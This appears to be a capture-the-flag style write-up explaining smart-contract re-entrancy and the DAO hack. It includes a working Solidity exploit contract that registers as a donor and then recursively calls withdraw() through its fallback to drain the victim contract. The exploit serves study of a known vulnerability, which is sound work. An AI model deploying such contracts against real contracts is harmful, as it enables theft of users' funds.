 # Day 10 - Re-entrancy

## What is re-entrancy

Re-entrancy happens in single-thread computing environments, when the execution stack jumps or calls subroutines, before returning to the original execution.

On one hand, this single-thread execution ensures contracts’ atomicity and eliminates some race conditions. On the other hand, **contracts are vulnerable to poor execution ordering.**

![re-entrancy](./images/re-entrancy-1.jpeg)

In the example above, Contract B is a malicious contract which recursively calls A.withdraw() to deplete Contract A’s funds. Note that the fund extraction successfully finishes before Contract A returns from its recursive loop, and even realizes that B has extracted way above its own balance.

**the DAO hack:**

- Fallback functions can be called by anyone & execute malicious code
- Malicious external contracts can abuse withdrawals

## Solution

1. Create a malicious contract called AttackReentrancy.sol, which will first donate to Reentrance.sol, and then recursively withdraw from it until Reentrance is depleted of funds.

2. Create a public function so AttackReentrancy.sol can donate to Reentrance.sol and be registered as a donor in its balances ledger:

Invoking this function will ensure that your malicious contract will be able to call withdraw() at least once, i.e. passing the if(balances[msg.sender] >= \_amount) check.

![diagram](./images/re-entrancy-2.jpeg)

```js
pragma solidity ^0.6.0;

contract AttackReentrancy {
    address payable victim;

    constructor(address payable _victim) public payable {
        victim = _victim;

        // Call Donate
        bytes memory payload = abi.encodeWithSignature("donate(address)", address(this));
        victim.call{value: msg.value}(payload);
    }

    function maliciousWithdraw() public payable {
        // Call withdraw
        bytes memory payload = abi.encodeWithSignature("withdraw(uint256)", 0.5 ether);
        victim.call(payload);
    }

    fallback() external payable {
        maliciousWithdraw();
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }
}
```
